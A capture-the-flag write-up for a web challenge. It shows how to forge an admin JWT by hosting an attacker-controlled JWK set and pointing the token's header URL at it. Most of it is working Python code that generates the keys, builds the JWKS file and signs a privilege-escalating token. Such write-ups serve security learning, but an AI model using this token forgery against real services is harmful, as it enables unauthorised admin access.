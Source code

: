 ## 🎹 Challenge Name: Joy Otter Tiger
**Category**: Web  


### Investigation:
I first of all created a random account and logged in. The cookie was a jwt token, but seemed unsually large for HS256. So I threw it to jwt.io and saw its RS256 and jwk url was defined in the cookie. 

### Thoughts:
At this point, I was 90% sure about how to solve the challenge. Its a very common vulnerability to not check for malicious 3rd party jwk hosting endpoint. So I planned to create my own RSA keys, create a jwk json file and host it on webhook.site, then use the keys to create a admin jwt token signed with my own keys and pointing to my own jwk keys.

### Creating RSA pairs
```python
from jwcrypto import jwk
key = jwk.JWK.generate(kty='RSA', size=2048)
public_jwk = key.export_public(as_dict=True)
private_key_pem = key.export_to_pem(private_key=True, password=None)
public_key_pem = key.export_to_pem()

```

### Creating jwk.json
```python
kid = str(uuid.uuid4())
public_jwk['kid'] = kid
print('{\n  "keys": [')
print("    " + str(public_jwk).replace("'", '"'))
print("  ]\n}")
```

### Creating self signed jwt token 
```python
jwks_uri = "http://your_hosting.com/jwks.json"
payload = {
    "username": "a",
    "role": "admin",  # privilege escalation
    "iat": int(time.time())
}

# JWT header
headers = {
    "alg": "RS256",
    "typ": "JWT",
    "kid": kid,
    "uri": jwks_uri
}

# Sign JWT using private key
token = jwt.encode(payload, private_key_pem, algorithm="RS256", headers=headers)
print(token)
```

### Flag

Now if we use this jwt token as auth cookie, server will use our own jwk keys to test it, and it will be accepted, and we will get the flag.
